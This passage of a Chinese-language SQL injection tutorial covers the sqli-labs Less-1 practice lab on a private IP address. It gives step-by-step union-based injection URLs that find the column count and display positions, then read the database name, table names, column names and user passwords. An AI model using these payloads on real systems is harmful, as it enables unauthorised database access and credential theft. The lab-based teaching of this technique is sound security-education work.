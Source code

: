 其实通过上面的判断就可以得知第一关是字符型。

#### 3.1.4.3.**判断字段数**

order by 函数是对MySQL中查询结果按照指定字段名进行排序，除了指定字段名还可以指定字段的栏位进行排序，第一个查询字段为1，第二个为2，依次 类推。若输入数值为n时报错，那么表示没有n个字段，总的字段数为n-1。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=1' order by 4--+

![img](https://s2.loli.net/2023/03/12/mISp6dnkeAThWuB.jpg) 

#### 3.1.4.4.**判断显示位**

通过上面了解到字段数，后面通过union select 1,2,3....n（n为字段数）对其进行判断回显位。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,2,3--+

![img](https://s2.loli.net/2023/03/12/oIVGZSByrFq4lek.jpg) 

#### 3.1.4.5.**确定数据库名**

通过信息收集来判断数据库名，得知数据库名为：security。

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,database(),version()--+

![img](https://s2.loli.net/2023/03/12/tqDoWwBk6FiHbXd.jpg) 

#### 3.1.4.6.**确定数据库的表名**

由于版本>5.0，使用我们使用知识点中提到的方式进行查询。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+

![img](https://s2.loli.net/2023/03/12/9dTLRIFDXOwgAJV.jpg) 

#### 3.1.4.7.**确定数据库的列名**

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+

![img](https://s2.loli.net/2023/03/12/cYH3F7piRN82Umb.jpg) 

#### 3.1.4.8.**确定数据库的字段名**

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users--+

![img](https://s2.loli.net/2023/03/12/OYR6KIs92eaZDto.jpg) 

#### 3.1.4.9.**获取数据**

最终在通过上面的数据输出后，我们获取到相关的账号及密码。

## 3.2.**基于报错盲注**
